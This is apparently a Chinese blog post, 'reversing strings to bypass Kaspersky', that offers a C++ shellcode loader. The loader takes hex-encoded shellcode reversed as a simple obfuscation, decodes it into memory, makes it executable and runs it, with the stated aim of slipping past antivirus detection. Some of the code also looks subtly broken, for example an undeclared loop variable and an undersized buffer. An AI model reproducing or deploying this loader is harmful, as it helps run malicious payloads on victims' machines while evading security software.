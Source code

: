 # 翻转字符串绕卡巴斯基

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

## 思路

直接python一行代码翻转字符串。

![](../.gitbook/assets/image%20%28145%29.png)

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```

